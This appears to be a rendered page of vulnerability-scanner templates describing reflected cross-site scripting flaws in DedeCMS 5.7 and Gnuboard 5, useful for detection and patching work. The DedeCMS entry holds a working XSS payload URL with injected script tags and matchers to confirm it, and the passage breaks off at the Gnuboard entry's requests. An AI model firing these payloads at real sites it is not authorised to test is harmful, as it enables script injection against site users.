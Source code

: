 
# DedeCMS 5.7 - Cross-Site Scripting

## Description

- DeDeCMS 5.7 contains a cross-site scripting vulnerability in the '/include/dialog/config.php' file. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site.

- severity - high
- tags - dedecms,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/include/dialog/config.php?adminDirHand=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- part - body
- words
  1. location='../../\</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Gnuboard 5 - Cross-Site Scripting

## Description

- Gnuboard 5 contains a cross-site scripting vulnerability via the $\_GET['LGD_OID'] parameter.

- severity - medium
- tags - gnuboard,xss,huntr

## Requests
